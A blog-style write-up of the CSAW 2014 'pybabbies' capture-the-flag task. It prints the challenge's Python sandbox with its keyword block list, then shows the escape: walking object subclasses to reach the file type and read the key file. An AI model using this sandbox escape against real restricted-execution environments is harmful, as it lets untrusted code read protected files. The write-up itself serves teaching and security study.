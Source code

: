 Title: CSAW 2014 Writeup: pybabbies
Date:   2014-12-31
Category: writeups
Tags: ctf,writeups,csaw,exploitation
Lang: en
Slug: csaw14
Authors: rixx
Summary: Writeup of the pybabbies task at the recent CSAW14. Category: Exploitation. Points: 200. Team: krebs.

At the recent [CSAW14](https://ctf.isis.poly.edu/challenges#) I participated with the [krebs](http://krebsco.de/writeups/index.html) team. Sadly, I had only little time for the CTF, but I managed to complete one task nonetheless. It was called **pybabbies**, belonged to the category **Exploitation** and yielded **200** points (on a scale from 100 to 500).

## The Task

We were to connect to `54.165.210.171 12345` where we were greeted by a Python shell. Thankfully the code for this shell was included in the task:


    #!/usr/bin/env python 
    
    from __future__ import print_function
    
    print("Welcome to my Python sandbox! Enter commands below!")
    
    banned = [
        "import",
        "exec",
        "eval",
        "pickle",
        "os",
        "subprocess",
        "kevin sucks",
        "input",
        "banned",
        "cry sum more",
        "sys"
    ]
    
    targets = __builtins__.__dict__.keys()
    targets.remove('raw_input')
    targets.remove('print')
    for x in targets:
        del __builtins__.__dict__[x]
    
    while 1:
        print(">>>", end=' ')
        data = raw_input()
    
        for no in banned:
            if no.lower() in data.lower():
                print("No bueno")
                break
        else: # this means nobreak
            exec data

As you can see, this is a Python2 script. What it does is essentially the following:

* It removes all builtin functions and variables except for `raw_input` and `print`. This means we can't use any implicitly or explicitly used builtins such as `len` (which is commonly implicitly used in existental statements).
* It starts a REPL loop.
* It executes every (one-line) command we enter … except if it contains a banned word. Such as … `import`. Or `sys`. Or `os`. Or `eval` or `exec` or `input`. Basically everything we would want to escape the sandbox and find the keyfile.


## The Solution

Now, what we really want to do, is getting access to a file without importing any module, sending executable input or using builtin functions. This means we need access to the `file` type, which we can use to access and open files. Sooo, how do we access a file without any of this?

    >>> subclasses = ().__class__.__base__.__subclasses__()

This might look like a bit of magic, but it's really not that bad. Basically it takes a normal (albeit empty) tuple, `()`, then gets its class, which is `<type 'tuple'>`. `__base__` gets the base class of `tuple` which is `object`. `__subclasses__()` is closest to magic. It returns a list of weak references of the immediate subclasses of a class. Thankfully, in Python many classes subclass `object` directly. If this hadn't succeeded, we'd just gone on level further down the `__subclasses__()` output.

But we were lucky: at `subclasses[40]` there was `<type 'file'>`. The remainder was just finding the keyfile.

    >>> file_type = subclasses[40]
    >>> key_file = file_type('./key','r')
    >>> key = key_file.read()
    >>> print(key)
    flag{definitely_not_intro_python}

